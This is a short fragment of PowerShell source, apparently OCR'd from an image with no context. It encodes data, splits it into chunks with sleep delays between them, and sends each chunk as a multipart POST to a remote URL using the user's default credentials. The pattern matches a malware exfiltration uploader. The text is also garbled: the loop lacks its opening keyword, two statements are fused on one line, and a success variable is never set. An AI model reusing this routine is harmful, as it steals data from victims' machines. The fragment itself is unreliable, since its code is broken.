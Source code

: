 ```
 {  
  $szOptional = ""  
  $pUploadData = ""  
  Start-Sleep -Milliseconds 100  
  $readlen = $templen;  
  if (($nEncLen - $sum) -lt $templen){$readlen = $nEncLen - $sum}  
  if ($readlen -ne 0)  
  {  
   $pUploadData = $encletter + $sum  
   $sum += $readlen  
  }  
  else  
  {  
   $pUploadData += "ending"  
   $sum += 9  
   $readlen = 6  
  }  
  Start-Sleep -Milliseconds 1  
  $boundary = "----WebKitFormBoundarywhpFxMBe19cSjFnG"  
  $ContentType = 'multipart/form-data; boundary=' + $boundary  
  $bodyLines = (  
  "--$boundary",  
  "Content-Disposition: form-data; name=\`"MAX\_FILE\_SIZE\`"$LF",  
  "10000000",  
  "--$boundary",  
  "Content-Disposition: form-data; name=\`"userfile\`"; filename=\`"$upName\`"",  
  "Content-Type: application/octet-stream$LF",  
  $pUploadData,  
  "--$boundary"  
  ) -join $LFStart-Sleep -Milliseconds 1  
  $psVersion = $PSVersionTable.PSVersion    
  $r = \[System.Net.WebRequest\]::Create($Url)  
  $r.Method = "POST"  
  $r.UseDefaultCredentials = $true  
  $r.ContentType = $ContentType  
  $enc = \[system.Text.Encoding\]::UTF8  
  $data1 = $enc.GetBytes($bodyLines)  
  $r.ContentLength = $data1.Length  
  $newStream = $r.GetRequestStream()  
  $newStream.Write($data1, 0, $data1.Length)  
  $newStream.Close();  
    
  if($php\_post -like "ok"){echo "UpLoad Success!!!"}  
  else  
  {  
   echo "UpLoad Fail!!!"  
   $bReturn = $False  
  }  
 } while ($sum -le $nEncLen);  
 return $bReturn  
}
```
